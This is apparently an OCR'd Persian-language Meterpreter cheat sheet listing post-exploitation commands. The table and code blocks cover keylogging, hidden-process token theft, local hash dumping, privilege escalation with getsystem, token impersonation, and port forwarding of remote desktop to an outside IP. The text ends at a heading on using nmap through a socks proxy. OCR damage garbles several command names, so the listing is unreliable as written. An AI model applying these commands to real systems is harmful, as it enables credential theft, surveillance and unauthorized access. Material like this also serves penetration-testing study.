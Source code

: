 ## Meterpreter

| **دستور** | **توضیح** |
| :--- | :--- |
| help | لیست دستورات موجود |
| sysinfo | نمایش اطلاعات سیستم |
| ps | لیست فرآیند ها |
| getpid | لیست PID موجود |
| upload file C:\Program Files\ | بارگذاری فایل |
| download file | دریافت فایل |
| reg command | تعامل با رجیستری |
| rev2self | بازگشت به کاربر اصلی |
| shell | انتقال به شل تعاملی |
| migrate PID | تغییر به PID دیگر |
| background | فرآیند جاری پشت زمینه |
| keys can \(start\|stop\|dump\) | شروع/توقف/حذف keylogger |
| execute -f cmd.exe -i | اجرا cmd.exe و تعامل با آن |
| execute -f crnd.exe -i -H -t | اجرا cmd.exe به عنوان فرآیند مخفی و دریافت تمامی توکن ها |
| has dump | دریافت تمامی هش های محلی |
| run script | اجرای اسکریپت \(/scripts/meterpreter\) |
| port fwd \[add I delete\]  -lL 127.0.0.1 443 -r 3.3.3.3 -p 3389 | ایجاد Port forward بر روی پورت 3389 درون نشست جاری و دسترسی از راه دور به دسکتاپ بر روی پورت 443 |

### افزایش سطح دسترسی 

```text
use priv
getsystem
```

### توکن جعل هویت \(حذف \_token باعث متوقف شدن جعل هویت می شود\)

```text
use incognito
list tokens -u
impersonate token domain\\user
```

### استفاده از nmap در meterpreter socks proxy
